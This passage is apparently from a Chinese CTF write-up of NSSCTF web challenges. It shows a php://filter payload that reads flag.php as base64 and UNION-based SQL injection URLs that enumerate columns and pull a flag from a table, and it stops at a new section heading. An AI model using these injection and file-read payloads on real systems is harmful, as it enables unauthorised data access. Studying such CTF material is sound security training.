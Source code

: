 ```php-template=

```
然后我直接当问flag.php，但是没有结果。
想到题目提示用php伪协议，于是用filter:协议
于是修改payload
```
http://node7.anna.nssctf.cn:26132/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![](https://doc.amqyy.cn/uploads/36f24284-02ae-473e-a398-6312d6100f76.png)
然后就得到一串base64代码
解码得到flag

## [SWPUCTF 2021]easy_sql
>做题人：余俊康
>题目地址:https://www.nssctf.cn/problem/387
>知识点：sql注入

打开题目要求输入点什么，但是并没有要求怎么输入
![](https://doc.amqyy.cn/uploads/90a6a5e3-eedb-42a3-a29e-823864b233f7.png)
但是看到提示说参数是wllm
![](https://doc.amqyy.cn/uploads/a0f9ebdf-07e1-4a87-8ad6-f810da6f8848.png)
于是随便输入了wllm并赋值为1,然后就得到如下的提示
![](https://doc.amqyy.cn/uploads/b0e01e6b-81f3-4207-924e-c1ec7a586cb0.png)
根据提示是sql注入的题目，那么就先判断一下字段数
![](https://doc.amqyy.cn/uploads/f83be21d-04c6-4652-bad3-b6639b432504.png)
3不行，但是四有用说明字数段是3，然后因为确定了有⼏列,可以使⽤下⾯的语句查询
```
http://node4.anna.nssctf.cn:28687/?wllm=-1%27%20union%20select%201,2,3--+
```
![](https://doc.amqyy.cn/uploads/a5ba79f4-9dbf-41df-bb6d-6cb34fc5029c.png)
然后去查数据库名称
![](https://doc.amqyy.cn/uploads/b1f22677-b10c-40e7-90b3-a4cdd8e9a619.png)
之后去查数据库里面有什么表
查到里面有test_tb,users两个表
然后接招看表,在test_db表里找到了flag的踪迹
![](https://doc.amqyy.cn/uploads/5b577ffe-7cbb-4572-a021-cba933b8c0f5.png)
然后直接访问表里的flag
```
http://node4.anna.nssctf.cn:28687/?wllm=-1%27%20union%20select%201,2,flag%20from%20test_tb%20--+
```
![](https://doc.amqyy.cn/uploads/10f83772-0b98-4800-81ad-871248ef19f8.png)

## [SWPUCTF 2022 新生赛]ez_ez_php
>做题人:余俊康
>题目地址：https://www.nssctf.cn/problem/423
>知识点：php伪协议
